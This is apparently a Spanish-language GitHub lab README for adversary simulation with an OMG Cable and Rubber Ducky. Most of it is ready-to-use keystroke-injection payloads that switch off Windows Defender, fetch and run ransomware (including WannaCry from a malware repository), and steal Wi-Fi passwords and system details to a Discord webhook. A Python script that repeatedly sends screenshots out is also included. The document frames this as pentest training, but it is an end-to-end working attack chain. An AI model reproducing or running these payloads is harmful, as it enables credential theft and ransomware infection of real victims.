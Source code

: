 Bienvenid@s al laboratorio de simulación de adversarios con herramientas de HardwareHacking



Las herramientas a utilizar serán:


* OMG Cable tipo USB-C

* RubberDucky V3



Antes de iniciar necesitamos:

1. Crear una cuenta en PayloadStudio aplicación que hará de IDE donde compilaremos nuestras cargas.
https://payloadstudio.hak5.org/community/

Ya con nuestra cuenta nos será posible compilar nuestros payloads en nuestras herramientas de pentesting. Para este caso usaremos la interfaz para compilar en RubberDucky.


Cabe mencionar que las herramientas que utilizaremos para este laboratorio en nuestros dispositivos son detectadas como teclados, y bajo esa funcionalidad hay que operarlas, por lo cuál es muy importante para nosotros haber hecho toda una etapa de reconomiento donde sepamos su distribución para ejecutar las cargas en la nomenclatura correcta y tener en cuenta la versión de powerShell donde aseguraremos una ejecución plena de los scripts.


2. El siguiente es un payload que debe pegarse sobre el IDE payloadstudio, compilarse y descargarse para su posterior activación.

DELAY 1000
CTRL ESC
DELAY 200
STRING Defender
DELAY 200
ENTER
DELAY 1000
ENTER
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
ENTER
DELAY 500
SPACE
DELAY 500
TAB
DELAY 500
TAB
DELAY 500
ENTER
DELAY 500
TAB
DELAY 500
SPACE
DELAY 500
TAB
DELAY 500
SPACE
DELAY 500
TAB
DELAY 500
TAB
DELAY 500
SPACE
DELAY 500
ALT F4
ESC

El payload anterior está hecho para SO Win10 y distribuciones de teclado en inglés pero puede funcionar en teclados con distribución en español. Este puede ser descargado como recurso dentro de la misma carpeta del laboratorio (Inject.bin).

Una vez hayamos desactivado la seguridad del SO, nuestro atacante en sitio tendrá que buscar la oportunidad para conectar el OMG Cable para iniciar con inyección remota de código.



3. Creada la oportunidad para que el atacante introdujera el cable en la víctima, nuestro compañero tendrá que garantizar por el mayor tiempo posible una segura ejecución de los payloads.

El cable levantará una red wifi comúnmente con SSID: O.MG
La clave por defecto es: 12345678


4. Una vez enlazados nos conectaremos al dispositivo por la IP: 192.168.4.1

Esto nos llevará a una aplicación web que será nuestro IDE, Keylogger, monitor de logs y panel de configuración del dispositivo.


5. Enlistamos nuestros Payloads:

DUCKY_LANG US
DELAY 2000

GUI r 
DELAY 500
STRING powershell -WindowStyle Hidden
ENTER
DELAY 500
STRING New-Item -Path 'C:\tmp' -ItemType Directory
ENTER
DELAY 500
STRING Invoke-RestMethod -Uri "https://discord.com/api/webhooks/TU_TOKEN_AQUI" -Method Post -Body @{content="Nueva versión de PowerShell disponible:"; file = (Get-Content "C:\tmp\version.txt" -Raw | Out-String | ConvertTo-Base64); filename="version.txt"} -ContentType "application/json"
DELAY 300
ENTER
STRING exit
DELAY 200
ENTER

El siguiente comando mediante un token de discord  enviará la versión de powerShell al atacante a un webhook anteriormente creado. Esto nos crea un directorio en C: donde almacenará nuestro malware para su posterior ejecución. La carga obtiene la versión de powershell para poder ajustar nuestros payloads a las configuraciones de la víctima


6. Ejecutamos la descarga de nuestro malware una vez hecho el reconomiento.

DUCKY_LANG US
DELAY 2000

GUI r 
DELAY 500
STRING powershell -WindowStyle Hidden
ENTER
DELAY 500
STRING $url = "https://github.com/H4ckPyUN/Ciberseguridad/blob/main/Labs%20Ciberseguridad/Simulaci%C3%B3n%20de%20adversarios%20HardwareHacking/ransom0.exe"
DELAY 500
ENTER
STRING $destino = "C:\tmp"
DELAY 500
ENTER
STRING Invoke-WebRequest -Uri $url -OutFile "$destino\malware.exe"
DELAY 500
ENTER
STRING EXIT
DELAY 200
ENTER



#El siguiente payload permite descargar malware desde el repositorio TheZoo aprovechando su disponibilidad.

DUCKY_LANG US
DELAY 2000

GUI r 
DELAY 500
STRING powershell -WindowStyle Hidden
ENTER
DELAY 500
STRING $url = "https://github.com/ytisf/theZoo/raw/master/malware/Binaries/Ransomware.WannaCry_Plus/Ransomware.WannaCry_Plus.zip"
DELAY 500
ENTER
STRING $destino = "C:\tmp"
DELAY 500
ENTER
STRING $sieteZipExe = "C:\Program Files\7-Zip\7z.exe"
DELAY 500
ENTER
STRING Invoke-WebRequest -Uri $url -OutFile "$destino\Ransomware.WannaCry_Plus.zip"
DELAY 500
ENTER
STRING & $sieteZipExe x "$destino\Ransomware.WannaCry_Plus.zip" -o"$destino\descomprimido" -p"infected"
DELAY 1000
ENTER
STRING EXIT
DELAY 200
ENTER

* El Payload está hecho para versiones de PowerShell 5 o posteriores. 



7. Antes de realizar la infección hagamos algo de exfiltración de datos y reconocimiento de víctima.

DUCKY_LANG US
DELAY 2000

GUI r 
DELAY 500
STRING powershell -WindowStyle Hidden
ENTER
DELAY 500
STRING $url="YOUR DISCORD WEBHOOK";dir env: >> stats.txt; Get-NetIPAddress -AddressFamily IPv4 | Select-Object IPAddress,SuffixOrigin | where IPAddress -notmatch '(127.0.0.1|169.254.\d+.\d+)' >> stats.txt;(netsh wlan show profiles) | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)}  | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{PROFILE_NAME=$name;PASSWORD=$pass}} | Format-Table -AutoSize >> stats.txt;$Body=@{ content = "$env:computername Stats from Ducky/Pico"};Invoke-RestMethod -ContentType 'Application/Json' -Uri $url  -Method Post -Body ($Body | ConvertTo-Json);curl.exe -F "file1=@stats.txt" $url ; Remove-Item '.\stats.txt';exit
DELAY 500
ENTER
STRING exit
DELAY 200
ENTER

* Este payload nos envía al webhook anteriormente creado más información de la víctima y el equipo.


8. También podemos tomar capturas de pantalla:

El siguiente script hecho en python realiza exfiltración de snapshots a sistema.
Creando un archivo .py configuramos el siguiente script:
Como recurso puede ser descargado: https://github.com/H4ckPyUN/Ciberseguridad/blob/main/Labs%20Ciberseguridad/Simulaci%C3%B3n%20de%20adversarios%20HardwareHacking/SnapshotPyFile/script.py

import pyautogui
from time import sleep
import requests


# YOUR DISCORD WEBHOOK
discord_webhook = ""

# Edit this variables as you want
SCREENSHOTS = 10
TIMING = 5

for i in range(SCREENSHOTS):
    sleep(TIMING)

    # take the screenshot
    screenshot = pyautogui.screenshot()
    screenshot.save("screenshot.png")

    with open("screenshot.png", "rb") as f:
        foto = f.read()

    richiesta = {
        "username": "ExfiltrateComputerScreenshot"
    }

    # Send the message by attaching the photo
    response = requests.post(discord_webhook, data=richiesta, files={"Screen#"+str(i)+".png": foto})

    # Useful for debugging
    #if response.status_code == 200:
    #     print("Photo successfully sent!")
    #else:
    #     print("Error while submitting photo." + str(response.status_code))


8.1 Su descarga también puede ser hecha desde github.


DUCKY_LANG US
DELAY 2000

GUI r
DELAY 1000
STRING powershell -WindowStyle Hidden
ENTER
DELAY 2000
STRING $url = "https://github.com/H4ckPyUN/Ciberseguridad/blob/main/Labs%20Ciberseguridad/Simulaci%C3%B3n%20de%20adversarios%20HardwareHacking/SnapshotPyFile/script.py"
DELAY 200
ENTER
STRING $destino = "C:\tmp"
DELAY 200
ENTER
STRING Invoke-WebRequest -Uri $url -OutFile "$destino\script.py" 
DELAY 200
ENTER

8.2 Descargado una vez el archivo procedemos a su ejecución.

DUCKY_LANG US
DELAY 2000

GUI r
DELAY 200
STRING powershell  -WindowStyle Hidden
DELAY 200
ENTER
DELAY 300
STRING cd C:\tmp
DELAY 200
ENTER
STRING python .\script.py
DELAY 200
ENTER


9. Obtenida toda la información necesaria de la victima, procedemos con la infección remota.

DUCKY_LANG US
DELAY 2000

GUI r
DELAY 200
STRING  C:\tmp\malware.exe -WindowStyle Hidden
DELAY 200
ENTER



Y es así como en un corto periodo de tiempo un equipo descuidado se vuelve un vector de ataque.